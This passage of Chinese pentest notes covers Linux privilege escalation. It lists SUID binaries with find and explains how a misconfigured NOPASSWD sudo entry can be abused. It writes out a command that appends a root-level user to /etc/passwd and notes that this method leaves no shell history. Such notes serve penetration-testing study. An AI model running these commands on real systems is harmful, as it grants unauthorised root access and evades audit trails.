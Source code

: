 ## 2 Linux⚒️

Linux 内核提权都有可能导致系统宕机，慎重！

EXP 合集：[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

[https://github.com/vulmon/Vulmap](https://github.com/vulmon/Vulmap)

文章待看

-   [https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616](https://medium.com/bugbountywriteup/write-up-11-common-linux-privilege-escalation-92528853b616)

### 2.1 SUID

所谓 SUID，是 Linux 中文件属主的权限，通常再 Other 位置上，比如 passwd，其中 rws，Other 是写的 s，这就是 SID。

```plaintext
-rwsr-xr-x. 1 root root 27832 6月  10 2014 /bin/passwd
```

具体的含义是当你执行 passwd 时，会这个程序会以属主权限执行，这里属主是 root，那么就是会以 root 权限运行。

因此实际在 Linux 中可以搜索带有 SUID 权限的程序，结合运行 Shell 或者其他命令来提权。

```bash
find / -perm -u=s -type f 2> /dev/null
find / -perm -4000 -ls 2> /dev/null
```

搜索到具体应用，怎么利用可以参考备忘录 [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

### 2.2 sudo 配置滥用

拿到一个 shell 可以先 `sudo -ll` 查查当前用户有没配置 sudo。运维可能对 `/etc/sudofile` 配置不当，导致 UserName 用户不需要密码验证就能以任何用户身份执行任意命令：

```plaintext
UserName ALL=(ALL) NOPASSWD: ALL
```

下面是 admin 组内用户，无需密码即可使用任何用户身份，执行任意命令：

```plaintext
%admin UserName ALL=(ALL) NOPASSWD: ALL
```

这时直接 `sudo command` 就能使用 root 权限执行命令，可以向 `/etc/passwd` 添加 root 权限用户：

```plaintext
sudo sh -c "echo username:x:0:0:::/bin/bash >> /etc/passwd"
sudo -u username /bin/bash
```

为什么不 `sudo -i` 直接切换 root 用户，而是直接追加一个用户到系统呢？这样做通过 sudo 切换到新用户时 .bash\_history 不存在命令记录。

要是 sudo 需要密码，尝试搜集密码，使用其他账户执行命令，但是以上操作动作太大，可能触发告警信息。

要是能执行 find 命令，参数还没做限制就能通过 -exec 拿 shell：
